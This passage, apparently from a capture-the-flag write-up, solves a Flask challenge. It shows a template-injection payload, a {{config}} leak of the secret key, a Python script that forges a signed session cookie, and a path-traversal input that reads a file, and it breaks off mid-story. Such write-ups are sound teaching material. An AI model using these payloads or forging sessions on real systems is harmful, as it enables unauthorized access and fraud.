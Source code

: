 <p>In <code>show_error(keyword)</code> function have <strong>Server Side Template Injection (SSIJ)</strong>, check which payload:</p>
<pre><code>category={{7*7}}&number=1
</code></pre>
<p><img src="pic7.png" alt="Screenshot-from-2020-10-05-22-47-39"></p>
<p>Because the <code>category</code> is limited to 15 characters, it is hard to <strong>RCE</strong>. But we can leak some important info by <code>{{config}}</code>:</p>
<p><img src="pic8.png" alt="Screenshot-from-2020-10-05-22-50-54"></p>
<p>Character <code>'</code> at the end of payload is to match <code>filter()</code> function. It triggers <strong>SSTJ</strong> and show data up.</p>
<p>Now we have Flask <code>SECRET_KEY='Sorry_but_i_can_not_give_you_flag'</code>. Re build app with this <code>SECRET_KEY</code> and we can sign valid session with arbitrary data:</p>

```python
from flask import Flask, session, render_template_string
app= Flask(__name__)
app.config['SECRET_KEY'] = 'Sorry_but_i_can_not_give_you_flag'

@app.route('/', methods =['POST','GET'])
def index():
    session['username'] = "CustomUser"
    session['money'] = 100000000000000000000000000
    return render_template_string("<h1>Hello</h1>")

if __name__=="__main__":
	app.run(host='0.0.0.0', port=8011,debug=True)
```

<p>Go to <code>0.0.0.0:8011</code> and get session: <code>session=.eJyrVsrNz0utVLIyNMAJdJRKi1OL8hJzU5WslBKTEotTUpRqAaX6D10.X3tCxw.X9cG5T7JYjLtFFY_jVvdOY3MKdQ</code> (<code>money=100000000000000000000000000</code>)</p>
<p>The last task is leak <code>opt_key</code>. I have a idea. The <code>execute()</code> function is vulnerable to <strong>Path Traversal</strong>, so if input <code>category=../opt&number=1</code>, amount we lose will be the content of <code>opt.txt</code> file. Unfortunately, <code>opt_key</code> seems like not just contain digits, so it can not pass <code>line.isdigit()</code> check.</p>
<p>After hours of trying, i gave up. I pm the author - <strong>nhthongDfVn</strong> for help. He sent me the picture:</p>